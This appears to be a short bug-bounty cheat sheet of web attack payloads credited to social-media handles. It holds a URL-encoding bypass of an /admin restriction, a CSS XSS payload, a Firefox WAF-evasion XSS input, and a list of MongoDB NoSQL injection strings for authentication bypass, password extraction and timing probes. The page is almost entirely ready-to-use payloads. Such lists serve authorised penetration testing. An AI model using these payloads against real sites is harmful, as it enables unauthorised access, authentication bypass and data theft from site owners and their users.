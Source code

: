 ## Bypass /admin / from @secoceans
```
/admin -> not allowed
/%61dmin -> allowed
```

## CSS XSS payload / from @hunter0x7
```css
img{background-image:url('javascript:alert()')}
```

## Bypass WAF (Firefox) / from @lutfumertceylan

```html
<input accesskey=X onclick="self['wind'+'ow']['one'+'rror']=prompt;throw 1;">
```

# Payloads for NoSQL Injection / from @e11i0t_4lders0n

```
true, $where: '1 == 1'

, $where: '1 == 1'

$where: '1 == 1'

', $where: '1 == 1

1, $where: '1 == 1'

{ $ne: 1 }

', $or: [ {}, { 'a':'a

' } ], $comment:'successful MongoDB injection'

db.injection.insert({success:1});

db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1

|| 1==1

|| 1==1//

|| 1==1%00

}, { password : /.*/ }

' && this.password.match(/.*/)//+%00

' && this.passwordzz.match(/.*/)//+%00

'%20%26%26%20this.password.match(/.*/)//+%00

';sleep(5000);

';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);

{"username": {"$ne": null}, "password": {"$ne": null}}

{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}

```